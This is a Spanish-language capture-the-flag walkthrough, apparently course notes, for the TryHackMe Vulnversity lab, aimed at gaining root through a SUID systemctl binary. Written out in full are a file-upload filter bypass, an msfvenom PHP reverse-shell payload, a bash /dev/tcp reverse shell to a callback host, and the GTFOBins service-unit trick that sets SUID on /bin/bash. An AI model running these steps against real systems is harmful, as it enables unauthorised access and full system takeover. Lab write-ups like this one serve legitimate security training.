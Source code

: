 
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
# Escalada de Privilegios con Binarios SUID

En este apartado vamos a aprender sobre la escalada de privilegios, centrándonos en **Binarios SUID** como alternativa a `sudo -l`.

## Requisitos

Para seguir este tutorial, necesitarás:

1. Una máquina atacante con **Kali Linux**.
2. Una máquina vulnerable de **TryHackMe** [Vulnversity](https://tryhackme.com/r/room/vulnversity).

---

## Escaneo y Exploración

En clases anteriores, hemos visto cómo vulnerar esta máquina, pero esta vez vamos a tratar de conseguir el acceso como usuario root a través de la escalada de privilegios con **Binarios SUID**.

### Escaneo con Nmap

Primero, realizamos un escaneo con Nmap:

```bash
nmap -sS -sC -sV -p- --open --min-rate=5000 -n -vvv -Pn 1.2.3.4 -oN escaneo
```

Este escaneo muestra que el puerto **3333** está abierto, en el cual corre un servidor web.

### Exploración de Directorios con Gobuster

Accedemos a la página web y copiamos la **URL** para buscar más directorios web, utilizando la herramienta **Gobuster**:

```bash
gobuster dir -u http://1.2.3.4:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Después del escaneo, encontramos el directorio `Internal`. Nos dirigimos a la página web agregando este directorio al final de la **URL**.

## Explotación de Vulnerabilidades

Una vez cargada la página, encontramos una funcionalidad que permite subir archivos. Esto nos da la idea de crear un payload con `msfvenom`, indicando nuestra dirección IP conectada a la VPN de TryHackMe:

```bash
msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwned.php
```

Si tratamos de subir el archivo `php`, no nos lo permitirá, así que lo convertimos en un archivo `phtml`. Ahora, si volvemos a intentarlo, el archivo se sube exitosamente.

### Localización del Payload

Para encontrar la ubicación donde se subió el archivo, realizamos **Fuzzing Web** nuevamente, pero esta vez en el directorio `http://1.2.3.4/Internal`:

```bash
gobuster dir -u http://1.2.3.4:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Encontramos el directorio `uploads`. Al cargarlo en la web, encontramos el archivo malicioso en formato `phtml`.

### Ejecución de la Reverse Shell

Nos ponemos en escucha en el puerto `443`:

```bash
nc -nlvp 443
```

Desde la página web, damos clic en el archivo para obtener la reverse shell. Como esta suele perderse a los pocos minutos, enviamos la conexión por el puerto `444`:

```bash
nc -nlvp 444
```

Desde la conexión en el puerto 443, nos enviamos la sesión bash de la siguiente manera:

```bash
bash -c "sh -i >& /dev/tcp/10.21.21.212/444 0>&1"
```

Con esto, obtendremos una sesión mucho más estable.

## Escalada de Privilegios

Una vez dentro, procedemos a realizar la escalada de privilegios.

### Búsqueda de Binarios SUID

En clases anteriores, hemos visto cómo usar `sudo -l` para encontrar vulnerabilidades que permitan la escalada de privilegios. Sin embargo, cuando `sudo -l` no es efectivo, podemos usar otro comando para encontrar **Binarios SUID** vulnerables, es decir, binarios con permisos de root dentro del sistema:

```bash
find / -perm -4000 2>/dev/null
```

Este comando nos mostrará una lista de binarios. Debemos identificar cuál es extraño, por ejemplo, `systemctl`.

### Verificación de Binarios con GTFOBins

Si no estás seguro de cuáles binarios deberían estar presentes, te recomiendo la página **GTFOBins**. Allí, puedes buscar si un binario es normal que esté presente o no. Si ingresas un binario y no aparece información, es porque es normal que esté ahí. Sin embargo, si buscas `systemctl`, verás que aparece información sobre cómo explotarlo con SUID y sudo.

### Configuración de Terminal

Para realizar cualquier ejecución de comandos, es recomendable ajustar la configuración de la terminal:

1. Crea un terminal en bash:
   ```bash
   script /dev/null -c bash
   ```
2. Sal de la conexión con `Ctrl + Z`.
3. Pon la terminal en primer plano:
   ```bash
   stty raw -echo; fg
   ```
4. Escribe `reset xterm`.
5. Luego, ejecuta los siguientes comandos:
   ```bash
   export SHELL=bash
   export TERM=xterm
   ```

## Creación y Ejecución de Script para Escalada

Una vez hecho esto, nos dirigimos al directorio `/tmp` para crear un script en bash con el código proporcionado por **GTFOBins**.

### Creación del Script

1. Crea el archivo `.sh`:
   ```bash
   nano escalada.sh
   ```
2. Configura el siguiente comando para poder cambiar los permisos de bash y obtener una shell como root:
   ```bash
   chmod u+s /bin/bash
   ```

Es importante indicar la ruta absoluta del binario para evitar errores. El script debería quedar así:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

### Ejecución del Script

Guarda el archivo y luego ejecuta el siguiente comando para obtener una shell como root:

```bash
bash escalada.sh
```

Si no hay errores, ejecuta lo siguiente:

```bash
bash -p
```

Si todo salió bien, deberías ver un prompt diferente. Para confirmarlo, ejecuta `whoami`. Si aparece "root", ¡la máquina ha sido vulnerada con éxito!

--- 

